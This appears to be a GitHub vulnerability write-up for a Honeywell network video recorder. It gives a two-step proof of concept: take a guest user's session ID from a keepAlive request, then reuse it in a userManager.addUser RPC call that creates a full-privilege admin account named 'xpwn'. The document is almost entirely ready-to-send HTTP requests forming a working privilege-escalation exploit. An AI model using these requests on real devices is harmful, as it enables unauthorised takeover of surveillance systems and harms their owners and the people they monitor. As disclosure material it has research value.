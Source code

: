 # Honeywell_NVR_vul


### First, attain the SessionID for a guest user.
We can find the SessionID from any http request. Such as:
POST https://192.168.1.104/RPC2 HTTP/1.1  
Accept: text/javascript, text/html, application/xml, text/xml, */*  
X-Requested-With: XMLHttpRequest  
X-Request: JSON  
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Referer: https://192.168.1.104/  
Accept-Language: zh-cn  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko  
Host: 192.168.1.104  
Content-Length: 84  
DNT: 1  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DHLangCookie30=%2Fweb_lang%2FEnglish.txt; DhWebSnapPath=C%3A%5CPictureDownload%5C; DhWebRecordPath=C%3A%5CRecordDownload%5C; DhWebClientSessionID=113826814; DhWebCookie=%7B%22username%22%3A%22guest%22%2C%22talktype%22%3A%221%22%2C%22loginid%22%3A633443784%7D

{"method":"global.keepAlive","params":{"timeout": 300},"session":113826814,"id":112}  

"session":113826814 is the SessionID for the current guest user.


### Second, create the admin user.
send the special http request with above mentioned SessionID:
POST https://192.168.1.104/RPC2 HTTP/1.1  
x-requested-with: XMLHttpRequest  
Accept-Language: zh-cn  
Accept: text/javascript, text/html, application/xml, text/xml, */*  
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)  
Host: 192.168.1.104  
Content-Length: 759  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DhWebClientSessionID= 113826814

{"method":"userManager.addUser","params":{"user":{"Id":3,"Group":"admin","Name":"xpwn","Password":"DD75DAB01878D84C963128764AB24DD3","Memo":"","Sharable":false,"AuthorityList":["Account","GeneralConf","OutputConfig","TVSet","ComConf","PtzConfig","AutoMaintain","bkConfig","OfflineLoginedUser","DefaultConfig","SysUpdate","MPTZ","Sysinfo","QueryLog","Alarm","Record","Backup","RecordConf","MHardisk","DataFormat","AlarmConf","VideoConfig","NetConf","RemoteDevice","EncodeConf","DelLog","ShutDown","Replay_01","Replay_02","Replay_03","Replay_04","Replay_05","Replay_06","Replay_07","Replay_08","Monitor_01","Monitor_02","Monitor_03","Monitor_04","Monitor_05","Monitor_06","Monitor_07","Monitor_08","Monitor","Replay","CtrPanel"]}},"session": 113826814,"id":271}

"session": 113826814 is the SessionID we get from the first step.


Now, the admin account with name: xpwn and password:Pwd@12345 is created. We can log in to the device with this account.

